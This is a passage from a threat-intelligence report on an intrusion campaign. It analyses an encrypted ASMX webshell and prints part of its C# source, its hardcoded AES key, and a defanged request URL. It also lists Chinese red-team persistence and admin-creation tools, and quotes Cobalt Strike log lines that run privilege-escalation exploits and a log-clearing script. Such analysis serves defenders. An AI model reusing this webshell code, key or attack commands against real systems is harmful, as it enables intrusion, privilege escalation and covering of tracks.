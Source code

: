 ```cs
                responseBuilder.Append(Convert.ToBase64String(new RijndaelManaged().CreateEncryptor(Encoding.Default.GetBytes(aesKeyIv), Encoding.Default.GetBytes(aesKeyIv)).TransformFinalBlock(resultBytes, 0, resultBytes.Length)));
                responseBuilder.Append(md5Hex.Substring(16));
            }
        }
        catch (Exception) { }
        return responseBuilder.ToString();
    }
}

```

* Requests are sent to this web-shell via an ASMX web service - `hxxp://victm.edu.vn/3.asmx/Tas9er?inputParam=<base64_ciphertext>` 
* The first request sends AES-encrypted bytes (`key/IV = "93a1d11603dcec67"`) which get decrypted and loaded directly into memory as a .NET assembly (`Assembly.Load`).
* On later requests, the webshell creates an instance of the class `LY` inside that in-memory assembly and drives it by calling `.Equals(...)` with the `HttpContext`, a `MemoryStream`, and the decrypted input data.
* Whatever bytes the implant writes to the `MemoryStream` are AES-encrypted again and returned, wrapped with an MD5 prefix and suffix derived from `Tas9er93a1d11603dcec67`.

# Chinese Red Team Tooling

During the intrusion, the threat actor heavily leveraged Chinese developed, or modified, red team tooling or plugins. I hadn't seen any of these used in the wild. We were able to recover evidence the threat actor had delivered the below tools to vicitm machines:

1) [`TransitEXE.exe`](https://github.com/ctrlaltint3l/intelligence/blob/main/VietnameseCampaign/Malware/TransitEXE.exe_malz)

We can see this is a reference to the `CreateService` Cobalt Strike plugin for persistence. This is an [open-source plugin](https://github.com/uknowsec/CreateService), written in Chinese. 

2) [`C:\ProgramData\FFICreateAdminUser.exe`](https://github.com/Tas9er/FFICreateAdminUser)

This binary was used as for persistence and priviledge escalation, in order to create a new Administrator user account. This tool was developed a Chinese developer `Tas9er`, which we see multiple times. 

3) [`3.asmx`](https://github.com/ctrlaltint3l/intelligence/blob/main/VietnameseCampaign/Webshells/3.asmx)

This web-shell was, once again, developed by Chinese developer `Tas9er` as [ByPassGodzilla](https://github.com/Tas9er/ByPassGodzilla). 

4) `sharpcmd.exe`

Looking at the Cobalt Strike activity logs, we can ascertain the .NET payload `sharpcmd.exe` was being used to proxy execution of malicious payloads:

```bash
sharpcmd.exe "CoercedPotato -c whoami"
sharpcmd.exe "CVE-2023-36802.x64.exe"
sharpcmd.exe "An-Clear.bat"
sharcmd.exe "JuicyPotatoNG -t * -l 1337 -c {} -p whoami"
```
